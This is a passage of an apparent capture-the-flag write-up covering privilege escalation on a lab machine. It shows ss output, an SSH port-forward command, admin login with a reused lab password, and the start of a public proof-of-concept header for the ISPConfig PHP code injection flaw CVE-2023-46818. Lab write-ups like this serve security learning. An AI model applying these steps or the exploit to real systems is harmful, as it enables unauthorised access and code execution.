 Recovered **password**, logged in via SSH as `tobias`, and captured **user flag**.

---

## 2️⃣ Privilege Escalation

### Internal Port Discovery

```bash
$ ss -tunlp
Netid  State   Recv-Q  Send-Q   Local Address:Port    Peer Address:Port Process 
udp    UNCONN  0       0        127.0.0.53%lo:53           0.0.0.0:*            
tcp    LISTEN  0       4096         127.0.0.1:8080         0.0.0.0:*            
tcp    LISTEN  0       511            0.0.0.0:80           0.0.0.0:*            
tcp    LISTEN  0       4096     127.0.0.53%lo:53           0.0.0.0:*            
tcp    LISTEN  0       128            0.0.0.0:22           0.0.0.0:*            
tcp    LISTEN  0       10           127.0.0.1:25           0.0.0.0:*            
tcp    LISTEN  0       70           127.0.0.1:33060        0.0.0.0:*            
tcp    LISTEN  0       151          127.0.0.1:3306         0.0.0.0:*            
tcp    LISTEN  0       10           127.0.0.1:587          0.0.0.0:*            
tcp    LISTEN  0       128               [::]:22              [::]:*  
```

Found **port 8080** open locally.

### Local Port Forwarding

```bash
ssh -L 8787:127.0.0.1:8080 tobias@10.10.11.64 -N
```

### ISPConfig Exploitation

ISPConfig admin panel accessible at `localhost:8787`.

* Brute-forced `admin` credentials using previous password `slowmotionapocalypse`.
* Identified **ISPConfig 3.2.10p1**.
* Found a **PHP Code Injection** PoC for **ISPConfig <= 3.2.11**.

### Exploiting CVE-2023-46818

Used the POC:

```php
<?php

/*
    ------------------------------------------------------------------------
    ISPConfig <= 3.2.11 (language_edit.php) PHP Code Injection Vulnerability
    ------------------------------------------------------------------------
    
    author..............: Egidio Romano aka EgiX
    mail................: n0b0d13s[at]gmail[dot]com
    software link.......: https://www.ispconfig.org
    
    +-------------------------------------------------------------------------+
    | This proof of concept code was written for educational purpose only.    |
    | Use it at your own risk. Author will be not responsible for any damage. |
    +-------------------------------------------------------------------------+
    
    [-] Vulnerability Description:
      
    User input passed through the "records" POST parameter to /admin/language_edit.php is 
    not properly sanitized before being used to dynamically generate PHP code that will be
    executed by the application. This can be exploited by malicious administrator users to
    inject and execute arbitrary PHP code on the web server.
```